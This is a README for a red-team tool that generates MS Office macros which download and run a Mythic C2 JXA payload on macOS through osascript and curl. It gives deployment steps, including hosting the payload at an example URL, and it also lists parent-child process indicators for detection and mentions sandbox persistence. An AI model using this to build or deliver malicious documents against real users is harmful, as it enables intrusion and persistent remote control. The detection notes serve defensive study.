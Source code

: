 # Mythic-Macro-Generator
Python3 script to generate MS Office macros for launching Mythic JXA payloads.

This script generates an Office macro doc which uses osascript to download and execute the Mythic JXA .js payload. 

Steps:

1. Set up Mythic C2 server and generate an "apfell" jxa payload. Download that payload on the Mythic server.

2. Host that payload (ex: put the .js payload in a folder and use python -m SimpleHTTPServer to host)

3. Run this macro generator:

**python3 jxa-macro.py -u [url to the hosted .js payload in #2 above]**

_*example: python3 jxa-macro.py -u http://192.168.1.1:8000/apfell2.js*_

4. The macro text will be dropped to a file in the same directory named "macro.txt"

5. Copy and paste that macro into an MS Office doc.


---------

**Detection:**

This macro spawns the following parent-child relationships that can be used for detection:

Office Product (ex: Microsoft Word.app) --> /bin/sh

Office Product (ex: Microsoft Word.app) --> /bin/bash

Office Product (ex: Microsoft Word.app) --> /usr/bin/curl


---------

**Note: This will launch the JXA payload inside of the App Sandbox. However, Mythic does have the ability to add Login Item persistence even from the App Sandbox.

**Also Sophos appears to stop this technique from execution**


